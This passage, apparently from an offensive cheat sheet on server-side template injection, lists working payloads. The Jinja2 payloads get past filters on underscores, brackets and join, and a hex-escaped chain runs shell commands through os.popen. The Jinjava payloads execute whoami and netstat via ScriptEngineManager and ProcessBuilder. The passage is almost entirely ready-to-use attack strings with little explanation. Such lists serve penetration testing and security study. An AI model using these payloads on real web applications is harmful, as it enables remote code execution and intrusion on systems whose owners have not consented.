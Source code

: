     request.__class__
    request["__class__"]

**Bypassing `_`**

    http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

    {{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
    {{request|attr(["_"*2,"class","_"*2]|join)}}
    {{request|attr(["__","class","__"]|join)}}
    {{request|attr("__class__")}}
    {{request.__class__}}

**Bypassing `[` and `]`**

    http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
    or
    http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_

**Bypassing `|join`**

    http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_

Bypassing most common filters ('.','\_','|join','[',']','mro' and 'base') by [https://twitter.com/SecGus](https://twitter.com/SecGus):

    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

## Jinjava

### Jinjava - Basic injection

    {{'a'.toUpperCase()}} would result in 'A'
    {{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206

Jinjava is an open source project developed by Hubspot, available at [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

### Jinjava - Command execution

Fixed by [https://github.com/HubSpot/jinjava/pull/230](https://github.com/HubSpot/jinjava/pull/230)

    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

